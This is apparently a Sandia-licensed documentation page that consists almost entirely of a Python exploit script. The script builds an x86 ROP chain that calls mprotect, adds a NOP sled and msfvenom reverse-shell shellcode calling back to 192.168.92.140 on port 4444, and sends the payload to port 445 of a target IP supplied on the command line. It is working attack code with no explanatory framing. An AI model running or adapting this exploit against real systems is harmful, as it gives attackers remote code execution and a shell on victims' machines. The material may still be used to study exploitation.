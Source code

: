 .. Copyright 2022 National Technology & Engineering Solutions of Sandia, LLC
   (NTESS).  Under the terms of Contract DE-NA0003525 with NTESS, the U.S.
   Government retains certain rights in this software.
   
   Redistribution and use in source and binary/rendered forms, with or without
   modification, are permitted provided that the following conditions are met:
   
    1. Redistributions of source code must retain the above copyright notice,
       this list of conditions and the following disclaimer.
    2. Redistributions in binary/rendered form must reproduce the above copyright
       notice, this list of conditions and the following disclaimer in the
       documentation and/or other materials provided with the distribution.
    3. Neither the name of the copyright holder nor the names of its contributors
       may be used to endorse or promote products derived from this software
       without specific prior written permission.
   
   THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS "AS IS" AND
   ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED
   WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE
   DISCLAIMED. IN NO EVENT SHALL THE COPYRIGHT HOLDER OR CONTRIBUTORS BE LIABLE
   FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL
   DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR
   SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER
   CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY,
   OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE
   OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.

.. code::

 import socket
 import sys
 import hexdump
 import struct
 
 
 header = b"\x81"
 payload = b''
 pre_payload = b''
 packet = b''
 pre_payload = b'\x41' * 34
 garbage = b''
 
 for i in range(int(64/4)):
     for j in range(4):
         garbage += struct.pack("B", 0x41+i)
 
 payload += garbage
 
 #0x0804f7da: pop eax; pop ebx; pop ebp; ret;
 payload += struct.pack('<I', 0x0804f7da)  #'\xda\xf7\x04\x08'
 #Syscall number(EAX)
 #Target Call is 7d, but ECX gadget will add 7 to the lsB, but subtract 1 from msB,
 #so start with 0x86. I now know that I can just change the order the the gadgets
 #to avoid this step.
 payload += struct.pack('<I', 0x86) #b'\x86\x00\x00\x00'
 #Address Start(EBX) 0x08072000
 payload += struct.pack('<I', 0x08072000) #b'\x00\x20\x07\x08'
 #EBP
 payload += b'\x41\x41\x41\x41'
 
 
 #0x080664f5:pop ecx; adc al, 0xf7; ret;
 #Pop ecx gadget
 payload += struct.pack('<I', 0x080664f5)
 #Address Size(ECX)
 payload += struct.pack('<I', 0x4000)
 
 
 #0x08050738 pop edx; pop ebx; pop ebp; ret;
 #Pop edx gadget
 payload += struct.pack('<I', 0x08050738)
 #Prot Flag (EDX)
 payload += struct.pack('<I', 0x07)
 #Address Start(EBX) 0x08072000
 payload += struct.pack('<I', 0x08072000)
 #EBP
 payload += b'\x42\x42\x42\x42'
 
 
 #0xffffe422: int 0x80; pop ebp; pop edx; pop ecx; ret;
 payload += struct.pack('<I', 0xffffe422)
 #Garbage into EBP
 payload += b'\x43\x43\x43\x43'
 #EDX
 payload += b'\x07\x00\x00\x00'
 #ECX
 payload += b'\x00\x40\x00\x00'
 
 #Return Address:Somewhere in our RWX heap
 #0x08075A63 from 0x3A63 offset from 010 Editor
 payload += struct.pack('<I', 0x08075A63)
 
 reverse_shell_ip = '192.168.92.140'
 reverse_shell_port = 4444
 
 
 buf =  b""
 #NOP Sled
 buf += b"\x90" * 0x400
 
 #Payload from msfvenom
 buf += b"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66"
 buf += b"\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68"
 buf += socket.inet_aton(reverse_shell_ip)
 buf += b"\x68\x02\x00"
 buf += struct.pack('>H', reverse_shell_port)
 buf += b"\x89\xe1\xb0\x66\x50"
 buf += b"\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73"
 buf += b"\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0"
 buf += b"\x0b\xcd\x80"
 
 payload += buf
 
 #This doesn't have to match payload size, just need this to be large enough to
 #completely control our overrun
 payload_size = b'\xff'
 
 
 complete_payload = pre_payload + payload_size + payload
 length = struct.pack('>L',len(complete_payload))[1:]
 packet = header + length + complete_payload
 
 
 if len(sys.argv) != 2:
     print("{} <ip>".format(sys.argv[0]))
     sys.exit(1)
 print('Sending:')
 print(hexdump.hexdump(packet))
 ip = sys.argv[1]
 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
 s.connect((ip,445))
 s.sendall(packet)
 
 data = s.recv(1000)
 print(hexdump.hexdump(data))
 
